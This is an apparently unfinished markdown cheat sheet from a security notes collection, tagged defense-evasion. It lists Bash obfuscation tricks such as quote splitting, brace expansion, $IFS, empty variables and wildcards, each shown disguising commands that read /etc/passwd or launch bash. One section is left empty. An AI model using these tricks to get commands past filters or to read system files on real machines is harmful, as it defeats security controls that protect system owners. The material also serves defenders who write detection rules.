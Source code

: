 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - defense-evasion
  - obfuscation
  - linux
---
```

# Bash

TODO: Fill this info

## Quotes

Using single quotes. Ensure they are enclosed between each other.

```
$ /b'i'n/ba'sh'
```

Using double quotes. Ensure they are enclosed between each other.

```
$ /b"i"n/ba"sh"
```

## Brace Expansion

```
$ {cat,/etc/passwd}
```

## Arguments

### Invoke Argument Expression

```
$ echo cat /etc/passwd | $0
```

### Arguments Variable

```
$ cat /etc/pas$@swd
```

## Internal Field Separator

```
$ cat${IFS}/etc/passwd
```

## Uninitialized Variables

```
$ cat$empty /etc$empty/passwd$empty
```

## Backslashes

```
$
```

## Regular Expression

### Wildcards

Using the asterisk (`*`) as a placeholder to interpret whatever character will from the start to the end.

```
$ cat /etc/*wd
```

### Character Substitution

```
$ cat /et?/p?s??d
```

### Character Sets

```
$ /[uU]sr/b[iI]n/ca[tT] /etc/passwd
```

---
## References

### Backlinks

- [[01 - Charsets]]

- [[02 - Wildcards and optional characters]]

### Hacktricks

- [Hacktricks: Bypass Bash Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

### r00t 3xp10it

- [r00t-3xp10it: Simple Obfuscation](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md)